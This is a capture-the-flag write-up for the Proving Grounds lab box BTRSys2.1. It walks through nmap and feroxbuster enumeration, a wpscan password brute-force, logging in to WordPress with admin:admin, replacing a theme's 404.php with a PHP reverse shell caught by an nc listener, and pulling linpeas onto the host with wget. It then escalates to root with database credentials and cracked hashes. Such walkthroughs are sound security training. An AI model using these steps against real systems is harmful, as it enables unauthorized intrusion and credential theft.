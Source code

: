```yaml
---
title: "[PLAY] Proving Grounds: BTRSys2.1"
---
```


This is a write up for the box BTRSys2.1 on proving grounds. It's a part of the get to work series and it is a Linux base box.

## Enumeration
---
Starting off by kicking off autorecon to enumerate the services running off the box.

If you do not use autorecon I have left the basic nmap scripts that are essentially being executed.

``` bash
nmap -vv --reason -Pn -A --osscan-guess --version-all -p- $ip
```
```
Nmap scan report for 192.168.162.50
Host is up, received user-set (0.021s latency).
Scanned at 2021-10-11 17:55:47 EDT for 54s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.162
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 08:ee:e3:ff:31:20:87:6c:12:e7:1c:aa:c4:e7:54:f2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKrYYWK3Xv2EBb0KryPAargHdeVdVuGj+AHTUbH1CyLIuQ3zbtaq2+lr5K/aMqiJ5othz27+RWSJ2NmQ2JeOUBCogFLikCwU6MRDQLHpV+neS3fAKrH5fNnXo+RfnMWBLQaaXBPiUOQaoQc27hRN3SJ1hbVLEF65TY0siTrOj0Lt8SRztwkbfynHEKxMsQi5WWDLTgS7bivCf9VVWwqgmuBbsJAqFExDjLxlxJpH4+93bgEtD9EPV/KKO9B3Inaz8PxC+zXZofhZXloysYoGg4IZzT55JzrRVRuv/cbGcMuGTBpCCkdH01G4NCSgL7YwX13C1Qc+EFX1QExV6k1ePD
|   256 ad:e1:1c:7d:e7:86:76:be:9a:a8:bd:b9:68:92:77:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFTsqff4O0hsl+RUR2lXFcbCEkvFcspHALA2RR2DpoD2AlRN/DEpIbW3NETNXxxyKHTtGhUiBSUuw8S9RSBAsnY=
|   256 0c:e1:eb:06:0c:5c:b5:cc:1b:d1:fa:56:06:22:31:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH91w++CdkbeAkmXYietVhD/73nEaXR/nbeBEyuwLwgq
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: Linux 3.11 - 4.1 (95%), Linux 4.4 (95%), Linux 3.16 (94%), Linux 3.13 (92%), Linux 3.10 - 3.16 (92%), Linux 3.10 - 3.12 (91%), Linux 2.6.32 (91%), Linux 3.2 - 3.8 (91%), Linux 3.8 (91%), WatchGuard Fireware 11.8 (91%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/11%OT=21%CT=1%CU=43495%PV=Y%DS=2%DC=T%G=Y%TM=6164B3
OS:19%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10A%TI=Z%II=I%TS=8)SEQ(SP=
OS:102%GCD=1%ISR=10A%TI=Z%TS=8)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT
OS:11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=7120%W2=7120%W3=7
OS:120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M506NNSNW7%CC=Y%Q
OS:=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=1
OS:64%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

Nmap Summary:
- Port 21 FTP
- Port 22 SSH
- Port 80 HTTP

After noticing we have port 80 open I immediately go to the page and we find nothing interesting in the page source. It's basically just a gif. 

<img src="/assets/resources/btrsys2.1/home_page.png">

(Autorecon already did some directory busting btw saving me time see command below)

```
feroxbuster -u http://192.168.162.50:80 -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp" -v -k
```

I review the feroxbuster report and notice that we have the findings below:

```
Relevant Findings
403       11l       32w      302c http://192.168.162.50/server-status
301        9l       28w      317c http://192.168.162.50/upload
301        9l       28w      320c http://192.168.162.50/wordpress
```

We now know the server is running wordpress so we can begin to browse this page for a potential login page. I am going to start wpscan on it since it can help quickly enumerate version numbers and any plugins that might be on vulnerable.

Nothing crazy came up from the wpscan findings so I go ahead and see that there is a wp-login page though present on the site.

I tried some quick default credentials and was able to get in on the first try with: admin:admin

Lucky guess usually its the first one I try. If you didnt try this we would be able to use wpscan to bruteforce our way in!

We know admin is a valid user to btw since there was some information disclosure when trying to Login.


```bash
wpscan --url <ip> --usernames admin --passwords /usr/share/wordlists/rockyou.txt
```
<img src="/assets/resources/btrsys2.1/wordpress_user_disclosure.png">

## Exploitation
---
Now that we are actually in the wordpress admin portal we can play around with some of the settings. I noticed that there aren't any crazy unusual plugins that we can modify and wpscan didn't really give us that much helpful information either.

I do know however that the server is running apache which is able to execute php code.

We have the ability to edit the themes (Appearance > Theme Editor) php files so we can easily replace the code with malicious php that can be used as a reverse shell.

I will be using the pentest monkey reverse shell which can be found here > https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Editing the pentestmonkey php file
<br>
<img src="/assets/resources/btrsys2.1/pentest_monkey.png">

Replacing the contents of 404.php
<br>
<img src="/assets/resources/btrsys2.1/php_replaced.png">

Just download the file edit variables $ip and $port to the IP of your attack box and the port you want to listen for a connection on.

Now after we replaced the 404.php file like shown in the screenshot we will be starting a nc listener on port 1234

```
nc -nvlp 1234
```

To execute the shell we have to browse to the themes directory where 404.php is stored. If you do not know where the 404.php page would be located we can github the template being used then find it there.

Typically its in this directory: /wp-content/themes/twentyfourteen/404.php for future reference

<img src="/assets/resources/btrsys2.1/reverse_shell_execution.png">


## Privilege Escalation
---

Once we are in we have a dumb shell without a proper tty

We can use python to update it

First I checked to see which version we have

Confirmed we have python3 installed

Fixed our tty issue using:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

<img src="/assets/resources/btrsys2.1/tty_fix.png">

Going to automate a lot of the manual commands such as looking at /etc/passwd, /etc/crontab and looking for passwords as well as SUID SGUID with linpeas

going over to the /tmp folder

hosting a webserver on my kali box in the directory im hosting linpeas using updog

updog -p 80

Now I will download the file to the machine using wget

```
wget $ip/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh
```
Reading the linpeas.sh output here are a lot of the things I am looking for:
Kernel Exploit? No
Capability? No
SGID/SUID? No
Credentials? Yes

We found the following credentials in the mkasdklnasd file we can use it to connect to a mysql db.

<img src="/assets/resources/btrsys2.1/db_password.png">

Commands Used to connect to DB:

```
mysql -u root -p rootpassword!

showdatabases;

use wordpress;

show tables;

select * from wp_users;
```

After viewing the wp_users table we notice that we get hashses for root and admin.

I used crackstation to crack them and got the following results:

root:roottoor
admin:admin

Example:
<img src="/assets/resources/btrsys2.1/root_hash_cracked.png">

Now that we have the root password all we have to do is switch to the root user.

<img src="/assets/resources/btrsys2.1/imroot.png">

We have now succesfully rooted this box!
